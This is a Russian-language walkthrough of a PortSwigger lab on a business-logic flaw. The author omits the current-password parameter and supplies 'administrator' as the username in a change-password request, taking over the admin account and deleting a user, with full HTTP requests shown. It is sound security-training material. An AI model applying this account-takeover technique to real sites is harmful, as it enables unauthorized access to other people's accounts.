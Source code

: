 ```yaml
---
title: "Weak isolation on dual-use endpoint"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint"
classes: wide
---
```


Для прохождения нужно получить доступ к аккаунту администратора и удалить пользователя `carlos`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/
```

# Solution

Даны креды, поэтому стоит зайти в учетную запись. Воу. Как много возможностей в лк:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/1.png){: height="200" .align-center}

Форма для изменения пароля выглядит любопытно. Особенно нравится возможность ввести имя пользователя самостоятельно. Попробую изменит пароль:

```http
POST /my-account/change-password HTTP/2
Host: 0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Cookie: session=fQlSQMfUTvDilyDbm34B1xtCvaBuCesA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=kf1PryYuLmGb1EnKO7Z5MdvbjOlXG50c&username=wiener&current-password=peter&new-password-1=1&new-password-2=1
```

Попробую изменить пароль без поля `current-password`:

```http
POST /my-account/change-password HTTP/2
Host: 0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Cookie: session=fQlSQMfUTvDilyDbm34B1xtCvaBuCesA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=kf1PryYuLmGb1EnKO7Z5MdvbjOlXG50c&username=wiener&new-password-1=2&new-password-2=2
```

И это сработало:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/2.png){: height="200" .align-center}

Попробую изменить пароль другому пользователю. Предположим, что у админа логин `administrator`:

> За это время у меня успела протухнуть сессия, поэтому пришлось получить новый запрос.

```http
POST /my-account/change-password HTTP/2
Host: 0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Cookie: session=9IGmLo32t4tMNQy9QWa8OSXwWpmZwvFK
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=Y8imk7edOIAMSwzbjVVoNBOekHuepPbX&username=administrator&new-password-1=2&new-password-2=2
```

Пришел положительный ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2627

<!DOCTYPE html>
...
```

Протестирую:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/3.png){: height="200" .align-center}

Удалим `carlos`. Решено)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/4.png){: height="200" .align-center}
